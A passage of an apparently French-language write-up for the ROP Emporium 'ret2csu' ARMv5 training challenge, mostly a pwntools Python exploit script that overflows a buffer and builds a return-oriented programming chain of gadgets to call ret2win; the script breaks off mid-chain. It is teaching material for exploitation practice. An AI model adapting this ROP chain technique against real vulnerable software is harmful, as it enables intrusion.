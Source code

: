 | 0x00010498 || Adresse de re2win dans la PLT pour r3
| 0x0001062c| mov r2, sb; mov r1, r8; mov r0, r7; blx r3| mov and call |


## Exploitation

### Script python

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from pwn import *
import time

# ropemporium ARMv5 ret2csu
context.terminal=["/usr/bin/xterm", "-fa", "Monospace", "-fs","12", "-e"]
# Set up pwntools for the correct architecture
elf = context.binary = ELF('ret2csu_armv5')

# 164 : read
# 176 : ret
gs='''
b *pwnme+176
'''

# Gadgets
# pop {r4, r5, r6, r7, r8, sb, sl, pc} 
g_pop_r45678 = 0x00010644

# pop {r3, pc}
g_pop_r3 = 0x00010474

# mov r2, sb; mov r1, r8; mov r0, r7; blx r3
g_movs_blx_r3 = 0x0001062c

if len(sys.argv)>1 and sys.argv[1] == "-d":
    io = gdb.debug([elf.path],gdbscript=gs)
else:
    io = process([elf.path])

ret2win = elf.plt['ret2win']

io.recvuntil(b"> ")

offset=0x24

flagfile=b"flag.txt"

PL=b"A"*offset
# Chargement des registres r4..r10
PL+=p32(g_pop_r45678)
PL+=p32(0)               # r4
PL+=p32(0)               # r5
PL+=p32(0)               # r6
PL+=p32(0xdeadbeef)      # r7
PL+=p32(0xcafebabe)      # r8
PL+=p32(0xd00df00d)      # sb
PL+=p32(0)               # sl
# Chargement de r3 <= re2win@plt
PL+=p32(g_pop_r3)
PL+=p32(ret2win)

```